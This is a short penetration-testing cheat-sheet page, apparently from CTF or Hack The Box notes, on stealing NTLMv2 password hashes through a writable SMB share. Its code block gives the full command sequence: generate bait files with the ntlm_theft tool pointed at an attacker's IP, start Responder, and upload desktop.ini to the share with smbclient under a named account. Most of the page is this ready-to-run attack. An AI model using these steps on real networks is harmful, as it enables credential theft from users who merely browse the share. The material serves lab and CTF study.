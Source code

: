 # SMB Responder

When you can access to a SMB file share, you may want to upload malicious files that trigger to send password hashes to Kali system.&#x20;

## ntlm\_theft tool&#x20;

[https://github.com/Greenwolf/ntlm\_theft](https://github.com/Greenwolf/ntlm_theft)\
A tool for generating multiple types of NTLMv2 hash theft files. &#x20;

```bash
# Prepare malivious document files 
git clone https://github.com/Greenwolf/ntlm_theft
cd ./ntlm_theft
python3 ntlm_theft.py --generate all --server $LHOST --filename baby2
python3 ntlm_theft.py --generate all --server <Kali IP> --filename <local directory>
python3 ntlm_theft.py -g all -s 192.168.45.183 -f htb

# Start Responder 
sudo responder -I tun0 -v

# Upload the files for example 
cd htb 
smbclient //$RHOST/Shared -U S.Moon
Password for [WORKGROUP\S.Moon]:
smb: \> mput desktop.ini
# Wait for a while. You may see the following response back to the Responder 

# Use automated upload script in python
# https://github.com/iptracej/PentestCode/blob/main/web/common/upload.py 
```

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>
